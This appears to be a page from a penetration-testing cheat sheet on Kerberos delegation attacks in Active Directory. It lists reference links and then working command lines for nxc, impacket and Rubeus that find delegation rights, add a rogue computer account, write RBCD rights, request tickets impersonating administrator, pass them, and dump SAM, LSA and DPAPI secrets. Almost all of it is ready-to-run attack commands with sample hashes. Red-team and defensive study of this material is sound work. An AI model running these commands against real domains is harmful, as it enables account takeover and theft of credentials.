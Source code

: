 {% endtabs %}

## Delegations

[#kerberos-delegation](../../post-exploitation/windows/ad/exploitation.md#kerberos-delegation "mention")

```
https://en.hackndo.com/constrained-unconstrained-delegation/
https://beta.hackndo.com/unconstrained-delegation-attack/
https://beta.hackndo.com/resource-based-constrained-delegation-attack/
https://blog.harmj0y.net/activedirectory/s4u2pwnage/
https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
https://github.com/TheManticoreProject/Delegations
```

{% hint style="info" %}
By default on windows active directory all domain controller are setup with unconstrained delegation
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```bash
# Unconstrained Delegation
nxc ldap 192.168.0.104 -u harry -p pass --trusted-for-delegation
# With protocol transition ond RBCD as well
nxc smb serv01.testlab.local -u USER -p PASS --delegate administrator
nxc smb serv01.testlab.local -u USER -p PASS --delegate administrator --sam --lsa
# only S4U2Self in order to impersonate any account on a domain joined computer for which you know the credentials
nxc smb serv01.testlab.local -u USER -p PASS --delegate administrator --self
nxc smb serv01.testlab.local -u USER -p PASS --delegate administrator --self --dpapi
```
{% endcode %}

### Constrained Delegation

{% code overflow="wrap" fullWidth="true" %}
```bash
# Find it on Bloodhound
MATCH p=(u)-[:AllowedToDelegate]->(c) RETURN p
# Or with impacket
findDelegation.py "DOMAIN"/"USER":"PASSWORD" (-target-domain $DOMAIN)
# With protocol transition (using Impacket or Rubeus)
getST -spn "cifs/target" -impersonate "administrator" "domain/AccountName:password"
.\Rubeus.exe asktgt /user:jon.snow /domain:north.sevenkingdoms.local /rc4:B8D76E56E9DAC90539AFF05E3CCB1755
.\Rubeus.exe s4u /ticket:put_the__previous_ticket_here /impersonateuser:administrator /msdsspn:"CIFS/target" /ptt
# And next we can use the TGS to connect to smb and get a shell with psexec, smbexec, wmiexec, …
# SPN part is not encrypted in the request, so you can change it to the one you want with the option altservice

# Without protocol transition, we need to add a computer first
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'DOMAIN'/'USER':'PASS'
# add rbcd from X (rbcd_const) to constrained (castelblack) using 
rbcd.py -delegate-from 'rbcd_const$' -delegate-to 'targetComputer$' -dc-ip 'DomainController' -action 'write' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' 'domain'/'PowerfulUser'
# s4u2self + s4u2 proxy on X (rbcd_const)
getST.py -spn 'host/castelblack' -impersonate Administrator -dc-ip 'DomainController' 'DOMAIN'/'rbcd_const$':'rbcdpass'
# s4u2proxy from constrained (castelblack) to target (winterfell) - with altservice to change the SPN in use
```
